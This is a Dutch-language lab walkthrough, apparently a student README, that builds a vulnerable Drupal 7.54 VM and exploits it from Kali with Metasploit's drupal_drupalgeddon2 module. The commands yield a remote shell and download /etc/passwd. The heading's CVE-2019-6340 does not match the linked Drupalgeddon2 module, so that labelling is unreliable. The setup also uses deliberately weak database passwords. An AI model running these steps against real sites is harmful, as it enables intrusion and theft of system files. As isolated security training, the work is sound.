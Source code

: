 # CVE-2019-6340

## Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

- we kunnen door een exploit die veroorzaakt is door een sanitization fout in de `Drupal 7/8 RESTful Web Services` module, een remote php code execution uitvoeren.

- We gaan [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) gebruiken van metasploit om de exploit uit te voeren.

- we moeten hiervoor eerst drupal installeren en de module `RESTful Web Services` installeren.

## VM Setup

- We gebruiken een debian 11 desktop vm vdi van osboxes (zodat we makkelijk kunnen copypasten).

- We gebruiken vboxmanage om de vm te maken en te starten, deze zal een simpele debian 11 gui vm aanmaken met 2gb ram en 2 cpu cores, deze vm zal ook 2 netwerk adapters hebben, 1 voor de host-only adapter en 1 voor de NAT adapter.

## drupal installeren

- we gaan eerst wget installeren zodat we de drupal installatie script kunnen downloaden.

```bash
sudo apt-get update
sudo apt-get install wget
```

- daarna gaan we mysql-server 5.7 repository opzetten (8 werkt niet met drupal 7).
Het zal vragen welke versie we willen installeren, we kiezen eerst voor debian buster (10) en dan voor mysql 5.7.

```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb &&
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb 
```

- we kunnen eindelijk onze script downloaden en runnen.

```bash
    sudo wget drupalInstall.shLinK To be added &&
    sudo chmod +x drupalInstall.sh &&
    sudo ./drupalInstall.sh
```

- deze script zal drupal 7.54 installeren en de mysql database opzetten.
met root als gebruikersnaam en wachtwoord password voor de database.
er zal ook een drupal database aangemaakt worden met de naam drupal en password als wachtwoord.

- De nodige modules zullen ook gedownload worden(je moet wel nog de modules activeren in de drupal admin panel).


- als de script klaar is zou je normaal gezien drupal moeten kunnen bereiken op http://localhost/index.php of http://xxx.xxx.xxx.xxx/index.php (xxx.xxx.xxx.xxx is het ip van de vm) als u vanop een andere de kali vm wilt bereiken.

- we doen de basis configuratie van drupal en maken een admin account aan.

- voor we verder gaan voeren we nog een laatste commando uit om de drupal installatie te vervolledigen.

```bash
sudo rm -rvf /var/www/html/index.html
```

- dit is nodig of we zullen steeds redirected worden naar index.html.

- we zetten entity en restful web services aan in de modules pagina.

- vanop kali vm gaan we de exploit uitvoeren.

## Exploit

- we starten metasploit op en zoeken de exploit.

```bash
msfconsole
```

- we gaan een externe module  gebruiken die we gevonden hebben.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
```

- we gaan de exploit configureren.

```bash
set rhosts xxx.xxx.xxx.xxx (ip van de vm)
set verbose true
check
run
```

- als alles goed is gegaan zou je nu van op uw terminal een shell moeten hebben op de vm.

- testen of het werkt.

```bash
ls (zou de inhoud van de huidige directory moeten tonen)
shell (open een shell)
ip a (toont de ip adressen van de vm)
exit (sluit de shell)
download /etc/passwd (download het passwd bestand)
download /home/osboxes/capture.txt (download het capture.txt bestand)
```

deze files kan je vinden in de home folder van uw kali vm.

## notes

- voor de externe module te gebruiken moet je een connectie hebben met het internet
- uw kali vm moet een host-only adapter als dezelfde die de vm heeft.
- errors zullen verschijnen op up drupal pagina, dit komt door php versie 7.4 die niet compatibel is met drupal 7.